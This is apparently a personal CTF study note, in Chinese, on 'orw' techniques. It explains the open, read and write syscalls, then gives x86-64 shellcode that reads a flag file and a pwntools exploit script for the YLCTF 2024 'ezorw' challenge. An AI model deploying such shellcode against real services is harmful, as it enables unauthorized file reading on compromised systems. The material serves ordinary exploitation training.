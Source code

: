 ```yaml
---
title: orw
date: '2025-02-24 23:14:42'
updated: '2025-04-07 21:39:55'
---
```

1. <font style="background-color:#FBDE28;">open 函数</font>

open 函数用于打开一个文件，并返回一个文件描述符（一个整数），该文件描述符用来在后续的文件操作中标识文件。函数原型如下：

`int open(const char *pathname, int flags, mode_t mode);`

参数：

+ pathname：

类型：const char *

描述：指定要打开的文件的路径。可以是绝对路径或相对路径。

例子："/path/to/file" 或 "file.txt"

+ flags：

类型：int

描述：文件访问模式标志，指定文件如何被打开。常见的 flags 有：

O_RDONLY：只读模式

O_WRONLY：只写模式

O_RDWR：读写模式

O_CREAT：如果文件不存在，则创建该文件

O_EXCL：如果文件已存在，O_CREAT 将失败

O_TRUNC：如果文件已经存在，打开时将其内容清空

O_APPEND：写操作会从文件末尾开始追加

还有更多其他标志，具体可以参考 fcntl.h 头文件中的定义。

例子：

O_RDONLY：只读模式打开文件。

O_WRONLY | O_CREAT | O_TRUNC：以写入模式打开文件，并且如果文件不存在则创建，且打开时清空文件内容。

+ mode：

类型：mode_t

描述：<font style="background-color:#FBDE28;">如果文件需要创建（O_CREAT 标志），则指定新文件的权限</font>。这是一个三位八进制数，表示文件的访问权限。例如，0644 表示用户可读写，其他用户只能读。

例子：0666（文件所有者可以读写，其他用户可以读）。

返回值：

成功时，返回一个非负整数（文件描述符）。

失败时，返回 -1，并设置 errno 以表示错误原因。

2. <font style="background-color:#FBDE28;">read 函数</font>

read 用于从文件中读取数据。函数原型如下：

`ssize_t read(int fd, void *buf, size_t count);`

参数：

+ fd：

类型：int

描述：文件描述符

+ buf：

类型：void *

描述：指向存储读取数据的缓冲区的指针。

+ count：

类型：size_t

描述：要读取的字节数。read 会尝试读取最多 count 字节的数据。

返回值：

返回实际读取的字节数。可能少于 count，例如，文件到达末尾时。

返回 0 表示已到达文件末尾（EOF）。

失败时，返回 -1，并设置 errno。

3. <font style="background-color:#FBDE28;">write 函数</font>

write 用于向文件中写入数据。函数原型如下：

ssize_t write(int fd, const void *buf, size_t count);

参数：

+ fd：

类型：int

描述：文件描述符，指定要写入的文件。这个文件描述符通常是通过 open 获得的。

例子：fd = open("file.txt", O_WRONLY | O_CREAT | O_TRUNC, 0644);

+ buf：

类型：const void *

描述：指向要写入数据的缓冲区的指针。write 将从这个缓冲区读取数据并写入到文件。

+ count：

类型：size_t

描述：要写入的字节数。write 会从缓冲区中读取最多 count 字节的数据并将它们写入文件。

返回值：

返回实际写入的字节数，可能小于 count。如果发生错误，则返回 -1，并设置 errno。

## ROP 型


## shellcode 型
标准 orw：

```python
shellcode=asm('''
    push 0x67616c66
    mov rdi,rsp
    xor rsi,rsi
    push 2
    pop rax
    syscall
              
    mov rdi,rax
    mov rsi,rsp
    mov rdx,0x100
    xor rax,rax
    syscall
              
    mov rdi,4
    mov rsi,rsp
    mov rax,1
    syscall
''')
```

open 和 sendfile 的 shellcode：

```python
shellcode=asm('''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    xor edx, edx
    xor r10, r10
    push SYS_openat
    pop rax
    syscall
        
    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
''')
```

## YLCTF 2024 ezorw
非常简单的直接可以输入 shellcode 进行 orw

exp：

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# link=remote("challenge.yuanloo.com",34307)
link=process("./ezorw")

gdb.attach(link,'b *0x40129D')

shellcode=asm('''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    xor edx, edx
    xor r10, r10
    push SYS_openat
    pop rax
    syscall
        
    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
''')

payload=shellcode
link.recvuntil("welcome to YLCTF orw~\n")
link.send(payload)

link.interactive()
```

